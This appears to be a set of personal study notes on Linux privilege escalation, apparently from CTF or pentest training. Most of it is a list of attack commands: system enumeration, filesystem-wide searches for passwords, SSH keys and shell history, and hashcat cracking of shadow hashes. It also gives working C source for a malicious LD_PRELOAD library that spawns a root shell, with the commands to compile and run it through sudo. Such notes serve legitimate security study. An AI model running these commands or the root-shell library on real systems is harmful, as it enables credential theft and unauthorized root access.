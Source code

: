 - `ps aux` List All Services 
- `ss -anp` or `netstat anp` 
- `ls -lah /etc/cron*` List Cron schedules 
- `cat /etc/crontab` Another Cron 
- `dpkg -l` or `rpm` check for linux packages. Find syntax per packagemanager 
- `find / -writable -type d 2>/dev/null` check for file permissions 
- `mount` or `cat /etc/fstab` - List partitions 
- `/bin/lsblk` to read disks 
- `lsmod` driver enum, listing modules
- `/sbin/modinfo libdata` get info about specific modules (modName = libata) 


### Password Hunting 

- Look at payloadsallthething 
- `grep --color=auto -rnw '/' -ie "PASSWORD=" --color=always 2> /dev/null` find keyworks with passwords 
- `locate password | more` find files with password 
- `find / -name authorized_keys 2> /dev/null` or file name `id_resa` SSH keys 
- `~/.bash_history | grep -i passw`
- run unshadowed files through hashcat on windows 
- hashcat unshadow `hashcat65.exe -m 1800 creds.txt rockyou.txt -O`
- `ssh -i filename root@ip` 

### Automated tools 

### Fix Later


**LD Preload**

- make a maliciou library 
~~~c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
    
}
~~~

- `gcc -fPIC -shared -o shell.so shell.c -nostartfiles` compile 
- `sudo LD_PRELOAD=/home/user/kali/shell.so apache2`

**Challenge Machines**
- Simple CTF 

**SUID**

Look for shared object injection and environment variable
